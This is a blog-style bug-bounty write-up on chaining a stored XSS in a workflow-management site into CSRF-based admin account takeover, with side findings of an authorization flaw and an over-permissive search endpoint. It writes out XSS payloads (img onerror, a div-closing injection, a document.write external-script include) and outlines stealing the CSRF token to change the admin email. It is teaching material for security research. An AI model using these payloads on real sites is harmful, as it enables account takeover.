 ```yaml
---
layout: default
title: Stored XSS to CSRF 
description: There's much more to XSS than just an alert !
date:   2020-05-21 
date_only: May 21, 2020
permalink: /stored-xss-to-csrf/
reading_time: 6 minutes
image: /assets/images/stored-xss-to-csrf/poc.png
---
```

<head>
  <link rel="stylesheet" href="/assets/css/main1.css">
  <!-- Latest compiled and minified CSS -->
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">

  <!-- jQuery library -->
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>

  <!-- Popper JS -->
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.16.0/umd/popper.min.js"></script>

  <!-- Latest compiled JavaScript -->
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"></script>

  <title>{{ page.title }}</title>
  <style>
    .content{
        font-size: 20px;
    }
   
  </style>
</head>

<section id="one" class="wrapper style1">
  <div class="inner">
        
    <article class="feature left" style="background-color: white; color: black;">
        <center style="padding-bottom: 20px;">
            <h2 style="padding: 20px; color: black;"><b>{{ page.title }}</b></h2>
            <div style="color:#0067a3">
              {{ page.date_only }}
              <br />
              ~{{ page.reading_time }}
            </div>
            
        </center>
        <div class="content" style="padding:10px;">
            <p>
                There's almost no limit what you can do with XSS, stored XSS in particular, in most of the situations. It allows javascript code execution in the victim's browser. XSS is not just about popping an alert box and stealing cookies is just one method, which is decreasing because many websites have HttpOnly flag on their cookies which protects them. In that case, if you don't know exploiting it other than stealing cookies, even though your submission would be accepted, you could be missing out on high impacts, like account takeover. 
                <br ><br >

                I received an invite for a private program a few days back. It was a workflow management websites, where you could assign your team members project, and upload files, and other stuff with different levels of users. I decided to hack on it, as these kind of different user privileges super excites me due to the large scope of privilege escalation.

                So, I started browsing the site understanding it's functionality. Now, there was a project section, where users could keep their project private, or add some of their team members in it. There was a functionality to add comments to the project, and the members added in the project had the option to add like to the comment. But knowing the project ID, I was able to add likes to a project, which I was not a part of, and had no visibility permissions. I reported this, and I received a response stating that the project ID is not predictable, and status was changed to "Won't fix" and it got me only 5 points☹️

                Next, there was a functionality to search other users, by their username. The endpoint was something like 
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_request.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                I have stripped out a lot of other things for simplicity. This would return a response containing all the users whose name starts with "micha" like michaelben, michael etc.
                So the response was something like
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_response.png" alt="" height="30%" width="80%" />
            </center>
            <br ><br >
            <p>
                Again, the response contained a lot of other data, among which this was the most interesting ones. On a first glance, I thought this is leaking the address and mobile numbers of other team members, but later realised that they were actually visible on their profile.
                <br />
                Then the LIMIT parameter in the GET request caught my eyes, and I changed it to 1000. I got a hell lot of data regarding each of the team member. The response included the name of private documents uploaded by each user which was visible only to the user. Additionally, there were other details that the endpoint leaked such as private projects, and other information which were supposed to visible only to the particular user. 
                <br />
                On reporting this, I got a reply saying this was by design ! 😨
                Obviously, I couldn't do anything.
            </p>
            <br ><br >
            <p>
                I previously injected the XSS payload, <pre>"><img src onerror=alert(1)></pre> in one of the members name to test XSS, and it obviously didn't fire. I was just browsing using the admin account. I visited the member's profile with the payload. There was an option to deactivate the user. After deactivating, you receive a pop up saying "Deactivated {member name}". But when I deactivated this user, I got an invalid image symbol. I found this interesting. There are two possibilities which is mostly implemented in such a situation. One would be render the whole payload safely by some kind of filtering, and the other would be to completely remove the payload. But this removed only the tag , and so it loooked like <pre style="display: inline;">< img src=""></pre>. It was vulnerable to HTML and CSS injection, I could take down the whole page using <pre>< style>body{display: none}</style></pre>. But I was aiming XSS.

                I tried to bypass this, but I couldn't. I decided to look at the source code. I knew that it was parsing my HTML tags. The notification content was enclosed within a div tag. I immediately closed the div tag, and entered my payload. So the final payload was <pre>"></div><img src onerror=alert(document.domain)</pre>.

                Now when I deactivated the user with this payload, the payload fired. But I could not get the session cookies using this method, due to the HttpOnly flag. But I could get the CSRF token, using which I could change the admin email address. But again, since everything was against me, I was limited by the number of characters in the name where the payload must be injected. 

                So, I thought of referencing an external script to the page. I did <pre>document.getElementById("id").innerHTML = '< script src="http://localhost/alert.js"></script>'</pre>, where alert.js contained alert(document.domain), which would fire if the script was included. But it didn't. On more researching onto this, I found that scripts do not load in an already loaded page using the innerHTML method. Alternatively, using <pre>document.write("< script src='http://localhost/alert.js'></script>")</pre> could achieve it. I did that, and I got the alert. 
                Now just a simple POC.
            </p>
            <br ><br >
            <center>
                <img src="/assets/images/stored-xss-to-csrf/poc.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                <ul>
                    <li>Get the cookie string</li>
                    <li>Extract only the value of CSRF-TOKEN from the string</li>
                    <li>Send the POST request to change the email address with the CSRF-TOKEN in the header</li>
                </ul>
                Just don't stop with an alert box if you find XSS. It has a lot more potential. 
                <br>
                See you again in the next blog post :)
            </p>
